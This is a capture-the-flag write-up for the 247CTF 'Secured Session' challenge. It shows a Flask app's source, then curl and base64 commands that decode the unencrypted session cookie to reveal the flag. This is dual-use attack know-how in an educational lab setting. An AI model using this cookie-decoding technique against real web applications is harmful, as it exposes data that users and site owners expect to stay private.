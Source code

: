 # SECURED SESSION [EASY]

## Description

> If you can guess our random secret key, we will tell you the flag securely stored in your session.

## Source Code

![source.png](img/source.png)

<details><summary>Click here for source code in text format</summary>

```python
import os
from flask import Flask, request, session
from flag import flag

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(24)

def secret_key_to_int(s):
    try:
        secret_key = int(s)
    except ValueError:
        secret_key = 0
    return secret_key

@app.route("/flag")
def index():
    secret_key = secret_key_to_int(request.args['secret_key']) if 'secret_key' in request.args else None
    session['flag'] = flag
    if secret_key == app.config['SECRET_KEY']:
      return session['flag']
    else:
      return "Incorrect secret key!"

@app.route('/')
def source():
    return "<pre>%s</pre>" % open(__file__).read()

if __name__ == "__main__":
    app.run()
```

</details>

## Short Solution Description / Tags

Information Leak by Flask Session Cookie

## Solution

The flag is stored as `session` object.
We can leak this by decoding Flask Session Cookie.

```console
$ curl -D- https://f16c6fb96cbcd107.247ctf.com/flag
...
Set-Cookie: session=ey[REDACTED]X0.ZY0M-w.c5Ba5P-GsrW3qvhUZiVWMDs_yPA; HttpOnly; Path=/

Incorrect secret key!

$ echo -n ey[REDACTED]X0 | base64 -d
{"flag":{" b":"Mj[REDACTED]fQ=="}}base64: invalid input

$ echo -n Mj[REDACTED]fQ== | base64 -d
247CTF{[REDACTED]}
```
